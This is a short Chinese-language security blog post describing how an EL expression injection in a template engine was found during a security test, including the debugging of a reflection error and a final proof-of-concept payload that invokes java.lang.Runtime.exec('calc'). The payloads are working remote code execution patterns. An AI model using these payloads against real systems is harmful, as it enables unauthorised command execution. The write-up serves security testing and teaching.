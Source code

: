 ```yaml
---
id: 392
title: 一次EL表达式注入
date: 2020-08-13 T17:25:17+00:00
author: bfpiaoran
layout: post
tags:
    - security
---
```


安全测试的时候同事发现 有个模板 可以带入变量 大概是这样的
```json
{
    "content": "${a} ${b}",
    "params": [
        "123","456"
    ]
}
```  
最后解析结果是"123 456"  觉得有表达式注入 我说试下${${a}+${b}}呢  结果果然返回的是579  
存在EL表达式注入无疑了 一路跟踪代码 发现接口只是做了替换 最后调用另一个内部接口 debug了下发现传参为 ${123+456} 嗯。。。只是简单的替换
![](/img/in-post/el/0.png)  

最后跟踪发现有个模板引擎去做解析 那么问题就出在这了。 
![](/img/in-post/el/1.png)  
查一下网上的payload  
```yaml
${("".getClass().forName("java.lang.Runtime").getMethods()[6].invoke(null,null)).exec("calc")}
```  
发现返回失败 但是执行  getMethods 是有返回的 只好本地调试下
```yaml
${"".getClass().forName("java.lang.Runtime").getMethods()}
```
![](/img/in-post/el/2.png) 

发现报错 找不到方法 明明反射调用了Runtime  一路跟进代码 发现是生产模板的锅 Engine.getEngine().parseTemplate(data)  
方法会逐级搜索该对象或者类下面是否有对应的方法 然后push到一个缓存中 继续读取 

![](/img/in-post/el/3.png) 

问题就出在这里 ClassUtils.searchMethod  java反射调用之后 生成的是一个Object 而Object是没有方法的 也就抛出下面的异常了

![](/img/in-post/el/4.png)   


![](/img/in-post/el/5.png)


所以 问了下师傅 说需要强制转换类型 最终poc 为
```yaml
${((Runtime)("".getClass().forName("java.lang.Runtime").getMethods()[6].invoke(null,null))).exec("calc")}
```


